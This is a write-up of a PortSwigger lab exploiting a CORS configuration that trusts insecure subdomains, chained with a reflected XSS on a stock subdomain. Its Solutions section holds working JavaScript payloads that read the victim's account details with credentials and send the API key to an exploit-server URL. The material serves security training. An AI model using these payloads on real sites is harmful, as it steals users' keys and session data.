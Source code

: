 # [Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

## Lab

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

`/accountDetails` request:

```http
GET /accountDetails HTTP/1.1
Host: id.web-security-academy.net
Cookie: session=wienersession

HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "zYZabyLpG8IgZRHD6ZIAZGTjUKnmHRG0",
  "sessions": [
    "TTgEGDPhvJS2DdXBX0EftVqCmVFivyzT"
  ]
}
```

add `Origin` header:

- `Origin: hacked` => failed
- `Origin: https://id.web-security-academy.net` => reflected in `Access-Control-Allow-Origin`
- `Origin: https://*.id.web-security-academy.net` => reflected in `Access-Control-Allow-Origin`

=> the website trusted all subdomain. if we find a xss vulnerability in any subdomain, we can use it to attack website.

use the `check stock` function at product page, we found that there is a subdomain `stock.id.web-security-academy.net`.

this subdomain is vulnerable to XSS:

```http
GET /?productId=<script>alert()</script>&storeId=1 HTTP/1.1
Host: stock.id.web-security-academy.net

HTTP/1.1 400 Bad Request
Content-Length: 58

<h4>ERROR</h4>Invalid product ID: <script>alert()</script>
```

## Solutions

exploit the xss from trusted subdomain to retrieve sensitive information.

craft a response at exploit-server:

- body:

  ```js
  <script>
      document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
  </script>
  ```

deliver to victim and observe the apikey => solved

payload:

```js
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; 
  };
</script>
```
